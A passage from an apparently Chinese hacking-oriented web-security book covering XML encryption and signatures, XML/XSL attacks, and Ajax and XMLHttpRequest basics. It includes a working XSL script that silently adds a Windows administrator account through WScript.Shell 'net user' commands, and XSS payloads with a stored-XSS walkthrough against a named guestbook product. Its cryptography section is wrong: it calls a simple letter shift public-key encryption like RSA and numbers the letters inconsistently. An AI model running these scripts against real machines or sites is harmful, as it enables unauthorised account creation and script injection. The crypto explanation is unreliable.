
第二种是使用公钥加密算法，例如 RSA。公钥加密算法中有两个密钥：一个是只有持有者知道的私钥，另一个是要与密钥持有者通信的任何人都知道的公钥。在公钥加密算法中，使用私钥加密的任何内容都可以使用公钥解密；当然，使用公钥加密的内容，也只有持有私钥的人才能够解密。

我们用一个简单的例子来说明公钥加密算法的工作原理。这里假设我们的消息内容只在 26 个英文字母之内，并给这些字母编号，从 0 到 25。要对消息进行加密，我们需要添加私钥的值，这里假设私钥为 4。我们需要加密的内容为 `hello`。

| 字母 | h | e | l | l | o |
|---|---:|---:|---:|---:|---:|
| 编号 | 8 | 5 | 12 | 12 | 15 |
| 私钥 | 4 | 4 | 4 | 4 | 4 |
| 加密后的值 | 12 | 9 | 16 | 16 | 19 |

要对消息进行解密，我们需要添加公钥，公钥的值为 22。这里大家要注意了，因为我们的字母只有 26 个，所以算出来的数肯定会超过 25（因为从 0 开始），要得到其字母值只需要减去 26 就可以得到了。比如我们算出来的数是 27，那么减去 26 之后为 1。1 的编号所对应的字母就是 b 了。

| 项目 | 1 | 2 | 3 | 4 | 5 |
|---|---:|---:|---:|---:|---:|
| 加密后的值 | 12 | 9 | 16 | 16 | 19 |
| 公钥 | 22 | 22 | 22 | 22 | 22 |
| 原始加密后的值 | 34 | 31 | 38 | 38 | 41 |
| 规范化的值 | 8 | 5 | 12 | 12 | 15 |
| 纯文本 | h | e | l | l | o |

RSA 的工作原理与此相同。使用 RSA 生成一个摘要：H(M)，并使用我的私钥进行加密，则 `{H(M)}private-key` 就是我的签名。您收到消息 M 后，可以生成摘要 H'(M)，并使用我的公钥对签名进行解密，就得到我生成的 H(M)。如果 H(M) 和 H'(M) 相同，表明两封消息 M 是相同的。而且，您会发现拥有私钥的人，也就是“我”，是消息的发件人。

对于 XML 的签名格式，XML-DSIG 使用一个单独的命名空间。使用 `<ds:Signature>` 元素就是用于签名，此元素具有的信息包括要签名的内容、签名、用于创建签名的密钥以及存储任意信息的空间。

例如下面的一段签名代码，如下所示：

```xml
<element name="Signature" type="ds:SignatureType"/>
<complexType name="SignatureType">
  <sequence>
    <element ref="ds:SignedInfo"/>
    <element ref="ds:SignatureValue"/>
    <element ref="ds:KeyInfo" minOccurs="0"/>
    <element ref="ds:Object" minOccurs="0" maxOccurs="unbounded"/>
  </sequence>
  <attribute name="Id" type="ID" use="optional"/>
</complexType>
```

从代码中，我们可以看到全局 Id 属性允许文档包含多个签名，并提供了标识特殊实例的方法。在业务策略中经常使用多个签名，例如开一个网吧，必须要文化局和公安局都批准了才能够运营。

`ds:SignatureValue` 元素包含的是实际签名。由于签名通常是二进制数据，所以 XML DSIG 指定签名值通常是具有 Base64 编码内容的简单元素。

以上就是对签名的一个简单介绍了。在 XML 中不仅仅只有加密和签名安全技术，XML 还提供了很多的安全技术，如 SAML、XACML、XKMS 等等。这些技术使得 XML 数据在传输过程中的安全性得到了大大的提高。

这些技术与脚本并没有太大的关联，这里介绍最主要的目的就是为了扩大大家的视野。如果你对上面的内容有一些不理解的地方也没有关系。上面说了那么多理论化的东西，接下来轻松一下，来谈谈 XML 这门语言本身。

我们知道，利用 JavaScript 和 VBScript，我们可以轻松实现在主机中添加一个账号的功能，那么在 XML 中也可以吗？答案是肯定的，利用 XML 也同样能够完成对主机中添加一个账号的功能，利用 xml+xsl 就可以给客户机添加超级管理账户。

xml 文件的代码如下所示：

```xml
<?xml version="1.0" encoding="GB2312"?>
<?xml-stylesheet type="text/xsl" href="admin.xsl"?>
<name>利用 XML 来添加管理员账号</name>
```

把这个 xml 保存起来，并把它命名为 admin.xml。下面来看看 xsl 文件的代码，如下所示：

```xml
<?xml version="1.0" encoding="gb2312"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/TR/WD-xsl">
<xsl:template match="/">
  <html>
    <body>
      <xsl:value-of select="name" />
      <xsl:script>
```

```javascript
function run()
{
  var wsh;  // 调用 Windows 脚本来完成添加账号的功能
  var wsh = new ActiveXObject("WScript.Shell");
  wsh.run("net user 曾云好 123 /add",0);
  wsh.run("net localgroup administrators 曾云好 /add",0);
}
</xsl:script>
<xsl:eval>run()</xsl:eval>
</body>
</html>
</xsl:template>
</xsl:stylesheet>


```

上面的 XML 代码利用 Windows 提供的脚本，添加了一个名为曾云好、密码为 123 的管理员账号。把上面的代码保存为 admin.xsl 后，并把它与 admin.xml 放到同一个文件夹下，点击运行 admin.xml 就可以完成管理员账号添加的功能了。如图 15-3 所示，我们成功地完成了一个管理员的添加。
图 15-3 完成了对管理员账户的添加

虽然对于 XML 的安全，其提供了多种安全措施，例如加密、签名等等。但是 XML 这门语言在设计的时候是否就很完美了呢？答案当然是否定的。虽然目前很少有人去对 XML 语言自身的安全性进行测试，但是仍然还是被挖掘出 XML 语言的一些不完美的地方。例如下面的代码就能够使 XML 发生跨站漏洞。

代码由两个文件组成，一个是 XML 文件，另外一个是 XSL 文件。XML 文件的代码如下所示：

```xml
<?xml version="1.0" encoding="gb2312"?>
<?xml-stylesheet href="XSS.xsl" type="text/xsl"?>
<XSS>
  <title>df</title>
  <body xmlns:html="http://www.w3.org/1999/xhtml">
    <![CDATA[<script>alert("XML 跨站!!!")</script>]]>
  </body>
</XSS>
```

把它保存在本地计算机上，并命名为 XSS.xml。我们再来看看 XSL 的代码，如下所示：

```xml
<?xml version="1.0"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
<xsl:template match="/XSS">
<html>
<body>
<xsl:value-of select="title" />
<xsl:value-of select="body" disable-output-escaping="yes"/>
</body>
</html>
</xsl:template>
</xsl:stylesheet>


```

一个 XSL 文件也是属于 XML 文件的一部分，要使用它同样要声明。利用 `xsl:stylesheet` 就可以声明一个 XSL 样式表，`<xsl:template match="/XSS">` 则表示 XML 的源文件在当前的目录下，我们也可以改成其他的目录路径。在 XML 文件中的 `<?xml-stylesheet href="XSS.xsl" type="text/xsl"?>` 表示的是在当前 XML 文件中引用 XSL 样式表。

在前面介绍 XML 基础的时候我们就知道，`select` 属性是用于定义源文件中的元素名的，而 `xsl:value-of` 则是用来在当前层次中插入内容，即源文件中的元素名的内容。我们现在来运行 XSS.xml 文件看看，如图 15-4 所示，发生了跨站漏洞。
图 15-4 发生 XML 跨站

通过上面的代码，大家应该知道在 XML 中也同样会发生跨站了吧。对于 XML 跨站，我们只需要在元素中写入 `<![CDATA[<script>alert("XML 跨站!!!")</script>]]>` 就会发生跨站。

#### 15.1.3 基于 XML 后台数据库的系统安全浅析

前面我们就提到了 XML 可以作为数据库来使用，那么这个时候肯定有很多朋友会问：XML 就是数据库吗？这个时候就有人糊涂了，前面我们明明说的 XML 是一种脚本语言，怎么又变成数据库了呢？

如果仅按数据库这个术语的本质来看，XML 文件就是数据库，它是数据的集合。在许多方面看起来它和其他文件没什么区别——无论如何，每个文件都含有某种类型的数据。作为一种“数据库”格式，XML 有一些优势：例如，它是自描述的（所用的标记描述了数据的结构和类型，尽管缺乏语义），可交换的（portable）（Unicode），能够以树型或图形结构描述数据。同样它也有缺点，例如，它显得有些繁琐，由于要对它进行解析和文本转换，所以数据访问速度较慢。

在用 XML 作为后台数据库时，首先需要创建一个 `Microsoft.XMLDOM` 对象。之后再利用这个对象加载我们的后台数据库 XML 文件，并利用 `createElement` 方法来完成对 XML 数据库的操作。

因为 XML 数据库比较轻便，所以现在越来越多的小型系统都采用它来作为后台数据库，比较常见的架构有 ASP+XML、PHP+XML 等等。虽然这样的架构效率上是提高了，不过其安全性却不容忽视。

我们知道，XML 文件我们是可以直接用浏览器打开的。所以如果后台采用 XML 数据库的话，我们只需要知道 XML 路径，那么就会把 XML 数据库中的所有内容都得到。如图 15-5 所示就是我打开的一个网站的 XML 数据库内容。所以对于 XML 数据库的网站，首先就应该利用 XML 加密把数据库本身给加密了，这样就算被别人看到了，也都是经过加密的内容了。
图 15-5 得到的 XML 数据库内容

而对于基于 XML 后台数据库的系统代码安全，同样也是存在很大的威胁。我们知道所有的输入都可能具有危害性，所以对于 XML 数据库的系统也是一样，对所有输入的参数也同样要过滤，如果没有过滤就会发生安全问题。

下面我就用国内的一个 ASP+XML 的留言板系统来具体说明其危害性吧。首先来看看客户端提交留言的界面，从中我们可以得到变量的名称，如图 15-6 所示。
图 15-6 留言界面

我们再来看看服务端是如何获取我们输入的数据的，代码如下所示：

```vb
username = Request.Form("username")  // 获得我们输入的用户名
if username <> "" then  // 如果用户名不为空，则进行下一步操作
fromwhere = Request.ServerVariables("REMOTE_HOST")  // 获得我们的 IP 地址
homepage = Request.Form("homepage")  // 获得我们输入的主页
email = Request.Form("email")  // 获得我们输入的电子邮件
text = Request.Form("text")  // 获得我们输入的内容
text = Replace(text,"<","&lt;")  // 把留言内容中的 < 给转换掉
text = Replace(text,">","&gt;")  // 把留言内容中的 > 给转换掉
Posttime = now()  // 获得当前的时间
```

这就是我们输入的数据被获取到服务器中的方式。那么接下来看这些数据又是如何处理的，代码如下所示：

```vb
strSourceFile = Server.MapPath("List.xml")  // 获得数据库的地址
Set objXML = Server.CreateObject("Microsoft.XMLDOM")  // 创建 XMLDOM 组件对象
objXML.load(strSourceFile)  // 加载数据库文件
If objXML.parseError.ErrorCode <> 0 Then
  // 如果发生错误不等于 0，就把下面的 XML 声明代码加上去
  objXML.loadXML "<?xml version=\"1.0\" encoding=\"gb2312\" ?><xml><GuestBook></GuestBook></xml>"
End If
Set objRootlist = objXML.documentElement.selectSingleNode("GuestBook")
// 遍历 GuestBook 的名称项，即得到输入数据的名称
If objRootlist.hasChildNodes then
  id = objRootlist.lastChild.firstChild.text + 1
Else
  id = 1
End If
```

```vb
Set oListNode = objXML.documentElement.selectSingleNode("GuestBook").AppendChild(objXML.createElement("item"))
Set oDetailsNode = oListNode.appendChild(objXML.createElement("id"))
oDetailsNode.Text = id
// 创建我们 id 数
Set oDetailsNode = oListNode.appendChild(objXML.createElement("username"))
oDetailsNode.Text = username
// 创建我们输入的用户名
Set oDetailsNode = oListNode.appendChild(objXML.createElement("fromwhere"))
oDetailsNode.Text = fromwhere
// 创建我们的 IP 地址
Set oDetailsNode = oListNode.appendChild(objXML.createElement("Posttime"))
oDetailsNode.Text = Posttime
// 创建我们留言的时间
Set oDetailsNode = oListNode.appendChild(objXML.createElement("homepage"))
oDetailsNode.Text = homepage
// 创建我们的主页
Set oDetailsNode = oListNode.appendChild(objXML.createElement("email"))
oDetailsNode.Text = email
// 创建我们输入的电子邮件地址
Set oDetailsNode = oListNode.appendChild(objXML.createElement("text"))
oDetailsNode.Text = oydj.ubbCode(text)
// 创建我们输入的正文
objXML.save(strSourceFile) // 将上面获得的数据创建到 XML 数据库中之后，保存起来
Set objXML = nothing // 释放资源
response.write "谢谢您的留言" & text
Response.Redirect "index.asp" // 重定向到首页
response.end
End if
%>


```

再来整理一下思路：系统通过 ASP 代码获得我们输入的留言，并且正文过滤了标记（`<` 和 `>`）。接着连接后台的 XML 数据库，之后遍历我们输入的数据，并将其创建进 XML 数据库中，最后保存起来。

我们可以看到，我们输入的数据除了正文进行了过滤，其他地方都没有过滤就创建保存到了后台的 XML 数据库中。这难道不是一个漏洞吗？我们直接在其中输入跨站代码，如图 15-7 和 15-8 所示，发生了跨站。我们再来看看我们输入的跨站代码是如何被保存在 XML 数据库中的，如图 15-9 所示。
图 15-7 输入跨站代码
图 15-8 发生跨站

```xml
<item>
  <id>1350</id>
  <username><script>alert("XML数据库跨站")</script></username>
  <fromwhere>220.169.45.37</fromwhere>
  <Posttime>2007-3-26 0:38:32</Posttime>
  <homepage>http://<script>alert("XML数据库跨站")</script></homepage>
  <email><script>alert("XML数据库跨站")</script></email>
  <text><script>alert("XML数据库跨站")</script></text>
</item>
<item>
  <id>1351</id>
  <username><![CDATA[<script>alert("XML跨站!!!")</script>]]></username>
  <fromwhere>220.169.45.37</fromwhere>
  <Posttime>2007-3-26 1:20:56</Posttime>
  <homepage>
    http://<![CDATA[<script>alert("XML跨站!!!")</script>]]>
```

图 15-9 跨站代码在数据库出现的形式

对于 XML 数据库也一样，如果是客户端中输入的数据没有过滤的话，同样会发生安全问题。更不要以为 XML 是文本数据库就不会发生什么问题，就算不会发生什么问题，并不代表其他地方不发生。例如跨站漏洞，它存在于 XML 数据库的文本中，可到了客户端就被执行了。所以不要认为抛开了以前的传统数据库，换了一种新的数据存储方式，以前的脚本安全技术就不适用了。

目前，对于 XML 下的黑客技术还是非常少。不过随着 Web 2.0 的到来，XML 将频繁地被使用于各种 Web 开发当中。相信 XML 普及之后，其更多的不完善之处也将被逐渐显现出来。希望各位黑友能更多去研究其缺陷，那么在脚本黑客中又将有一片新的天地了。

## 15.2 Ajax下的黑客技术

Ajax 是 Web 2.0 的标志性技术，它的出现使得基于 B/S 模式的通信模式又焕发了新的活力。那么，什么是 Ajax 呢？Ajax 全称为“Asynchronous JavaScript and XML”（异步 JavaScript 和 XML），是指一种创建交互式网页应用的网页开发技术。Ajax 由 HTML、JavaScript 技术、DHTML 和 DOM 组成。Ajax 以一种崭新的方式来使用所有的这些技术，这些方法可以将笨拙的 Web 界面转化成交互性的 Ajax 应用程序。但是有一点大家要知道，Ajax 并不是一门新技术，而是多种老技术的新应用。

前面已经几次提到了 Web 2.0，那么它究竟是什么呢？可能还有人会想到 Web 1.0 又是什么？下面就简单解释一下这个名词。对于 Web 1.0，实际上它指的就是具有完全不同的请求和响应模型的传统 Web。比如，到 Google.com 网站上搜索东西，当我们单击“Google 搜索”按钮时，它就会向服务器发送一个请求，然后响应再返回到浏览器。该请求不仅仅是我们所要搜索的结果，而是另一个完整的 HTML 页面。因此，当 Web 浏览器用新的 HTML 页面重绘时，可能会看到闪烁或抖动。事实上，通过看到的每个新页面，可以清晰地看到请求和响应。

Web 2.0（在很大程度上）消除了这种看得见的往复交互。比如访问 Google 地图或者 MySpace.com 等这些典型的 Web 2.0 网站。我们在使用 Google 地图时，可以拖动地图、放大和缩小，只有很少的重绘操作。当然这里仍然有请求和响应，只不过都藏到了幕后。作为用户，体验更加舒适，感觉很像桌面应用程序。这种新的感受和范型就是当有人提到 Web 2.0 时您所体会到的。

本节将先为大家介绍 Ajax 这项 Web 2.0 下的核心技术，有了基础之后再来详细谈一谈其下的安全问题。目前 Ajax 下的安全问题也是非常多的，利用这些缺点我们可以做很多事情。

## 15.2.1 Ajax技术基础

这一节为大家介绍 Ajax 的一些基础知识，这将对于大家了解 Ajax 的黑客技术有非常大的帮助。下面是 Ajax 应用程序所用到的基本技术：

- HTML 用于建立 Web 表单并确定应用程序其他部分使用的字段。
- JavaScript 代码是运行 Ajax 应用程序的核心代码，帮助改进与服务器应用程序的通信。
- DHTML（Dynamic HTML）用于动态更新表单。我们将使用 div、span 和其他动态 HTML 元素来标记 HTML。
- 文档对象模型 DOM 用于（通过 JavaScript 代码）处理 HTML 结构和（某些情况下）服务器返回的 XML。

Ajax 技术之中，最核心的技术就是 XMLHttpRequest，它最初的名称叫做 XMLHTTP，是微软公司为了满足开发者的需要，于 1999 年在 IE 5.0 浏览器中率先推出的。后来这个技术被上述规范命名为 XMLHttpRequest。它正是 Ajax 技术之所以与众不同的地方。简而言之，XMLHttpRequest 为运行于浏览器中的 JavaScript 脚本提供了一种在页面之内与服务器通信的手段。页面内的 JavaScript 可以在不刷新页面的情况下从服务器获取数据，或者向服务器提交数据。

在一般的 Web 应用程序中，我们填写表单字段后并单击 Submit 按钮，然后整个表单发送到服务器，服务器将它转发给处理表单的脚本（通常是 PHP、ASP、JSP 等服务端脚本语言），脚本执行完成后再发送回全新的页面。该页面可能是带有已经填充某些数据的新表单的 HTML，也可能是确认页面，或者是具有根据原来表单中输入数据选择的某些选项的页面。当然，在服务器上的脚本或程序处理和返回新表单时，用户必须等待。屏幕变成一片空白，等到服务器返回数据后再重新绘制。这就是交互性差的原因，用户得不到立即反馈。

而 Ajax 基本上就是把 JavaScript 技术和 XMLHttpRequest 对象放在 Web 表单和服务器之间。当我们填写表单时，数据发送给的是 JavaScript 代码，而不是直接发送给服务器。相反，JavaScript 代码捕获表单数据后就向服务器发送请求。同时我们的浏览器屏幕上的表单也不会闪烁、消失或延迟。换句话说，JavaScript 代码在幕后发送请求，我们甚至不知道请求的发出。更好的是，请求是异步发送的，就是说 JavaScript 代码（和用户）不用等待服务器的响应。因此我们可以继续输入数据、滚动屏幕和使用应用程序等等。

对于 Web 2.0 来说，大部分技术都是旧的。最多的就是引用了 XMLHttpRequest 对象，所以下面就详细介绍这个对象。至于其他技术，如 HTML、JavaScript、XML，在前面已经介绍了，大家知道怎么用它们就可以了。

XMLHttpRequest 对象是当今所有 AJAX 和 Web 2.0 应用程序的技术基础。AJAX 利用一个构建到所有现代浏览器内部的对象 XMLHttpRequest 来实现发送和接收 HTTP 请求与响应信息。一个经由 XMLHttpRequest 对象发送的 HTTP 请求并不要求页面中拥有或回寄一个表单（`<form>`）元素。

AJAX 中的“A”代表“异步”，这意味着 XMLHttpRequest 对象的 `send()` 方法可以立即返回，从而让 Web 页面上的其他 HTML/JavaScript 继续其浏览器端处理，而由服务器处理 HTTP 请求并发送响应。尽管缺省情况下请求是异步进行的，但是你可以选择发送同步请求，这将会暂停其他 Web 页面的处理，直到该页面接收到服务器的响应为止。

XMLHttpRequest 是如此的重要，所以本节就来详细介绍一下这个对象。要使用一个对象，首先就得建立这个对象，利用 JavaScript 即可完成：

```html
<script language="javascript" type="text/javascript">
    var xmlHttp = new XMLHttpRequest();
</script>
```

不过这种声明方法只适合于 IE7 和火狐浏览器，对于 IE6 及以前的版本中，最简单的声明方法是：

```javascript
var XmlHttp = ActiveXObject("Microsoft.XMLHttp");
```

有了这个对象之后，我们就可以使用这个对象的属性、事件及方法了。XMLHttpRequest 对象的各种属性、方法和事件可以非常方便地进行脚本处理和控制 HTTP 请求与响应。下面就来详细为大家介绍这些方法。

##### 1、XMLHttpRequest 对象的属性和事件

- **readyState 属性**

当 XMLHttpRequest 对象把一个 HTTP 请求发送到服务器时，将会经历几种状态，如一直等待直到请求被处理；然后，它才接收一个响应。这样一来，脚本才可正确响应各种状态的 XMLHttpRequest 对象，而描述当前状态的属性就是 readyState。它一共有五种状态，如表 15-1 所示。

| ReadyState 取值 | 描述 |
|---|---|
| 0 | 描述一种“未初始化”状态；此时，已经创建一个 XMLHttpRequest 对象，但是还没有初始化。 |
| 1 | 描述一种“发送”状态；此时，代码已经调用了 XMLHttpRequest `open()` 方法，并且 XMLHttpRequest 已经准备好把一个请求发送到服务器。 |
| 2 | 描述一种“发送”状态；此时，已经通过 `send()` 方法把一个请求发送到服务器端，但是还没有收到一个响应。 |
| 3 | 描述一种“正在接收”状态；此时，已经接收到 HTTP 响应头部信息，但是消息体部分还没有完全接收结束。 |
| 4 | 描述一种“已加载”状态；此时，响应已经被完全接收。 |

表 15-1 XMLHttpRequest 对象的 ReadyState 属性值列表

- **responseText 属性**

这个 `responseText` 属性的作用是包含客户端接收到的 HTTP 响应的文本内容。当 `readyState` 值为 0、1 或 2 时，`responseText` 包含一个空字符串。当 `readyState` 值为 3（正在接收）时，响应中包含客户端还未完成的响应信息。当 `readyState` 为 4（已加载）时，该 `responseText` 包含完整的响应信息。

- **responseXML 属性**

`responseXML` 属性用于当接收到完整的 HTTP 响应时（`readyState` 为 4）描述 XML 响应；此时，`Content-Type` 头部指定 MIME（媒体）类型为 `text/xml`、`application/xml` 或以 `+xml` 结尾。如果 `Content-Type` 头部并不包含这些媒体类型之一，那么 `responseXML` 的值为 `null`。无论何时，只要 `readyState` 值不为 4，那么该 `responseXML` 的值也为 `null`。其实，这个 `responseXML` 属性值是一个文档接口类型的对象，用来描述被分析的文档。如果文档不能被分析（例如，如果文档不是良构的或不支持文档相应的字符编码），那么 `responseXML` 的值将为 `null`。

- **status 属性**

`status` 属性是用来描述 HTTP 状态代码的，而且其类型为 `short`。并且，仅当 `readyState` 值为 3（正在接收中）或 4（已加载）时，这个 `status` 属性才可用。当 `readyState` 的值小于 3 时，试图存取 `status` 的值将引发一个异常。

- **statusText 属性**

这个 `statusText` 属性描述了 HTTP 状态代码文本；并且仅当 `readyState` 值为 3 或 4 才可用。当 `readyState` 为其他值时，试图存取 `statusText` 属性将引发一个异常。

##### 2、XMLHttpRequest 对象的方法

XMLHttpRequest 对象提供了各种方法用于初始化和处理 HTTP 请求，下列来逐个介绍：

- **abort() 方法**  
  可以使用这个 `abort()` 方法来暂停与一个 `XMLHttpRequest` 对象相关系的 HTTP 请求，从而把该对象复位到未初始化状态。

- **open() 方法**  
  你需要调用 `open(DOMString method, DOMString uri, boolean async, DOMString username, DOMString password)` 方法初始化一个 `XMLHttpRequest` 对象。  
  其中，`method` 参数是必须提供的——用于指定你想用来发送请求的 HTTP 方法（GET、POST、PUT、DELETE 或 HEAD）。为了把数据发送到服务器，应该使用 POST 方法；为了从服务器端检索数据，应该使用 GET 方法。  
  另外，`uri` 参数用于指定 `XMLHttpRequest` 对象把请求发送到的服务器响应的 URI。借助于 `window.document.baseURI` 属性，该 URI 被解析为一个绝对的 URI——换句话说，你可以使用相对的 URI——它将使用与浏览器解析相对 URI 一样的方式被解析。  
  `async` 参数指定请求是否是异步的——缺省值为 `true`。为了发送一个同步请求，需要把这个参数设置为 `false`。对于要求认证的服务器，你可以提供可选的用户名和口令参数。  
  在调用 `open()` 方法后，`XMLHttpRequest` 对象把它的 `readyState` 属性设置为 1（打开），并且把 `responseText`、`responseXML`、`status` 和 `statusText` 属性复位到它们的初始值。另外，它还复位请求头部。注意，如果你调用 `open()` 方法并且此时 `readyState` 为 4，则 `XMLHttpRequest` 对象将复位这些值。例如：

```code
XmlHttp.Open("POST","http://www.google.com",true);
```

- **send() 方法**  
  在通过调用 `open()` 方法准备好一个请求之后，你需要把该请求发送到服务器，使用 `send()` 方法即可完成这个请求。  
  仅当 `readyState` 值为 1 时，你才可以调用 `send()` 方法；否则的话，`XMLHttpRequest` 对象将引发一个异常。该请求被使用提供给 `open()` 方法的参数发送到服务器。  
  当 `async` 参数为 `true` 时，`send()` 方法立即返回，从而允许其他客户端脚本处理继续。在调用 `send()` 方法后，`XMLHttpRequest` 对象把 `readyState` 的值设置为 2（发送）。当服务器响应时，在接收消息体之前（如果存在任何消息体的话），`XMLHttpRequest` 对象将把 `readyState` 设置为 3（正在接收中）。当请求完成加载时，它把 `readyState` 设置为 4（已加载）。对于一个 HEAD 类型的请求，它将在把 `readyState` 值设置为 3 后再立即把它设置为 4。  
  `send()` 方法使用一个可选参数，这个参数可以包含可变类型的数据。简单地说，你使用它并通过 POST 方法把数据发送到服务器。另外，你可以显式地使用 `null` 参数调用 `send()` 方法，这与不用参数调用它一样。对于大多数其他的数据类型，在调用 `send()` 方法之前，应该使用 `setRequestHeader()` 方法（见后面的解释）先设置 `Content-Type` 头部。如果在 `send(data)` 方法中的 `data` 参数类型为 `DOMString`，那么数据将被编码为 UTF-8。如果数据是 `Document` 类型，那么将使用由 `data.xmlEncoding` 指定的编码串行化该数据。

- **setRequestHeader() 方法**  
  `setRequestHeader(DOMString header, DOMString value)` 方法可以用来设置请求的头部信息。当 `readyState` 值为 1 时，你可以在调用 `open()` 方法后调用这个方法；否则，你将得到一个异常。

- **getResponseHeader() 方法**  
  `getResponseHeader(DOMString header, value)` 方法用于检索响应的头部值。仅当 `readyState` 值是 3 或 4（换句话说，在响应头部可用以后）时，才可以调用这个方法；否则，该方法返回一个空字符串。

- **getAllResponseHeaders() 方法**  
  `getAllResponseHeaders()` 方法以一个字符串形式返回所有的响应头部（每一个头部占单独的一行）。如果 `readyState` 的值不是 3 或 4，则该方法返回 `null`。

##### 3、DOM 简介

在 Ajax 中，DOM 对象也是非常重要的一项。比如我们 Ajax 在把数据发往服务器之前，要获得 HTML 标记，即页面中指定的标签和标签中的值。那么实现这个功能，使用 DOM 的几个对象就可以完成了。

DOM 是文档对象模型（Document Object Model）的简称。文档对象模型是能够以编程的方式访问和操作 Web 页面（也称作文档）内容的接口，它提供了文档中独立元素的结构化、面向对象的表示方法，并允许通过对象的属性和方法访问这些对象。另外，文档对象模型还提供了添加和删除文档对象的方法，这样就能够创建动态的文档内容。DOM 也提供了处理事件的接口，它允许捕获和响应用户以及浏览器的动作。

利用文档对象模型，使用 JavaScript 操作页面内容的过程通常我们称为动态 HTML，即 DHTML 或 Dynamic HTML。文档对象模型不是 JavaScript 的一部分，而是一个独立于编程语言和操作平台的编程接口。

对于 DOM，在这里我们只介绍它是如何获取页面中指定的标签和标签中的值的知识。文档对象模型提供了一组按树形结构组织的对象，每一个对象都有一个或多个属性与方法。随着动态 HTML 的出现，使用文档对象模型我们能够控制页面中的每一个元素。具体的使用就是使用文档对象模型访问 `document` 对象。

在 Ajax 中正是通过 `document` 对象的各种属性和方法来获得页面中指定的标签和标签中的值。要在运行于 Web 页面上的任何 JavaScript 代码中使用内置 `document` 变量，可以编写如下代码：

```javascript
var domTree = document;
```

当然，该代码本身没什么用，但它演示了每个 Web 浏览器使得 `document` 对象可用于 JavaScript 代码。下面就介绍一些在 Ajax 中运用 `document` 对象的获取标签和标签中的值的方法：

- `document.getElementById`：获取指定 id 的 HTML 标签的相关信息。
- `document.getElementsByName`：获得指定 name 的 HTML 标签相关信息。
- `document.getElementsByTagName`：获得指定的 HTML 标签相关信息。
- `document.all[n]`：访问第 n 个 tag（整个 HTML 文档的序号从 0 开始）。若 tag 有 id 或 name 属性，则可以使用 `document.all['id']` 或 `document.all['name']` 来访问，或者 `document.all.item("docid")` 和 `document.all.item("docname")` 来访问。

`document.all[n].tagName`：获取第 n 个 tag 的 tagName。  
`document.all.tags("div")`：返回文档中所有 DIV 数组，如果只有一个 DIV，则用 `document.all.tags("div")[0]` 就可以访问了。

我们可以在 HTML 页面中插入的 JavaScript 函数有：`insertAdjacentHTML`、`innerHTML`（`outerHTML`），它们用于插入 HTML 代码，例如 `<button type="submit" onclick="this.innerHTML='<h2>haha</h2>'">innerHTML</button>`。还可以使用 `insertAdjacentText`、`innerText`（`outerText`）在 HTML 页面中插入文本。下面是一个最简单的发送请求的代码，如下所示：

```html
<script language="javascript" type="text/javascript">
  var request = false;  // 设置 request 为 false
  try {  // 异常处理
    request = new XMLHttpRequest();  // 建立一个 XMLHttpRequest 对象
  } catch (trymicrosoft) {  // 判断是否为 IE 浏览器版本
    try {
      request = new ActiveXObject("Msxml2.XMLHTTP");
      // 建立 IE 浏览器的 XMLHTTP 对象
    } catch (othermicrosoft) {  // 如果不是 IE 浏览器
      try {  // 使用 Microsoft.XMLHTTP 建立对象
        request = new ActiveXObject("Microsoft.XMLHTTP");
      } catch (failed) {  // 否则失败
        request = false;
      }
    }
  }

  if (!request)
    alert("Error initializing XMLHttpRequest!");
  // 如果失败，弹出对话框显示 Error initializing XMLHttpRequest!

  function getCustomerInfo() {  // 处理发送数据的函数
    var phone = document.getElementById("phone").value;
    // 利用 DOM 对象获取 ID 为 phone 的值

    var url = "/cgi-local/lookupCustomer.php?phone=" + escape(phone);
    // 建立需要提交的 URL，同时对 phone 变量的值编码

    request.open("GET", url, true);  // 发送数据
    request.send(null);
  }
</script>
```

上面的代码首先通过判断浏览器的类型，然后用相应的方法建立 XMLHttpRequest 对象。如果建立成功，则通过获取 ID 为 phone 的值，然后定义 url 变量及对 ID 值进行编码后，利用 XMLHttpRequest 对象的 `open()` 和 `send()` 方法把 ID 的值发送出去。也正是上面的那一小段代码，我们可以将其改为一个蠕虫病毒。

上面就是简单介绍了下 Ajax 下的核心技术，即 XMLHttpRequest 对象。加上以前的HTML、JavaScript 的基础知识，相信大家已经对 Ajax 有了一定的认识了。下一节中将主要为大家介绍 Ajax 下的黑客技术及安全问题。

#### 15.2.2 Ajax 的黑客技术

Ajax 虽然功能非常强大，但是什么东西都是有利有弊的。在众多黑客的研究下，Ajax 也出现了很多弱点，典型的有诸如 SQL 注入（SQL injections）、跨站脚本（cross-site scripting）和拒绝服务攻击（Denial of Service）等等。

在 2006 年 6 月 12 日，第一次出现了大型的利用 Ajax 攻击例子，目标是 Yahoo! 的 Email 服务。黑客利用 JavaScript 编写出一个蠕虫病毒，该蠕虫病毒名为 Yamanner。它利用 Yahoo! Mail 服务的一个弱点，以用户的联系人列表向外发出自己的拷贝。这个蠕虫甚至不需要你打开附件，只要一浏览邮件立即会中招。

而国内则是在 2006 年 7 月份出现了 Ajax 蠕虫病毒，攻击的目标是百度开通的百度空间。该蠕虫病毒利用对提交的自定义 CSS 中插入 JavaScript 代码，从而发生了跨站攻击，同时还把自己加入到友情链接中。

我们也知道 Ajax 其实算是 JavaScript 的一部分，所以如果没有对其进行有效的过滤，同样会发生跨站漏洞，而且前面所介绍的方法依然在 Ajax 中可以使用，我们甚至还可以变出更多的跨站代码来。

##### 1. Ajax 的十大安全漏洞

在 2006 年 11 月，由 Shreeraj Shah 写的《Top 10 Ajax Security Holes and Driving Factors》出现在了世界著名安全网站 net-security 中。该文章详细阐述了 Ajax 下的十大安全漏洞，内容总结得很全面，确是一篇经典之作。下面就引用他这篇文章来向大家介绍 Ajax 下的安全漏洞。该文章原文在：http://www.net-security.org/article.php?id=956&p=1。  
在介绍十大漏洞之前，先来看看 Web 2.0 漏洞形成的关键因素。

- **认证混乱——**输入和输出内容认证是应用的重要因素之一。Web 2.0 应用使用桥、mashups，还有反馈等等。很多情况下，它假定“另一方”（读取服务器端或者客户端代码）已经实现了认证，这种混乱就导致了双方都没有实现适当的认证控制。
